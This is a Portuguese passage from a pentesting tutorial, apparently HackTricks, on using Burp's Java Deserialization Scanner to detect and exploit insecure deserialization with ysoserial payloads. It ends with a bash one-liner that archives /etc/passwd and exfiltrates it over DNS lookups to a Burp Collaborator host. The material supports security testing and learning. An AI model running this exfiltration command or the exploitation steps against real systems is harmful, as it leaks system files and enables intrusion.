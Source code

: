 ### Passivo

Por padrão, ele **verifica passivamente** todas as requisições e respostas enviadas **procurando** por **bytes mágicos serializados Java** e apresentará um aviso de vulnerabilidade se algum for encontrado:

![https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](<../../images/image (765).png>)

### Ativo

**Teste Manual**

Você pode selecionar uma requisição, clicar com o botão direito e `Enviar requisição para DS - Teste Manual`.\
Então, dentro da aba _Deserialization Scanner_ --> _Manual testing tab_ você pode selecionar o **ponto de inserção**. E **iniciar o teste** (Selecione o ataque apropriado dependendo da codificação utilizada).

![https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](../../images/3-1.png)

Mesmo que isso seja chamado de "Teste Manual", é bastante **automatizado**. Ele verificará automaticamente se a **desserialização** é **vulnerável** a **qualquer carga útil ysoserial**, verificando as bibliotecas presentes no servidor web e destacará as vulneráveis. Para **verificar** as **bibliotecas vulneráveis**, você pode optar por lançar **Javas Sleeps**, **sleeps** via **consumo de CPU**, ou usando **DNS**, como foi mencionado anteriormente.

**Exploração**

Uma vez que você tenha identificado uma biblioteca vulnerável, pode enviar a requisição para a aba _Exploiting_.\
Nesta aba, você deve **selecionar** novamente o **ponto de injeção**, **escrever** a **biblioteca vulnerável** para a qual deseja criar uma carga útil e o **comando**. Em seguida, basta pressionar o botão **Ataque** apropriado.

![https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](../../images/4.png)

### Informações de Exfiltração DNS de Desserialização Java

Faça sua carga útil executar algo como o seguinte:
```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```
### Mais Informações

- [https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)

{{#include ../../banners/hacktricks-training.md}}
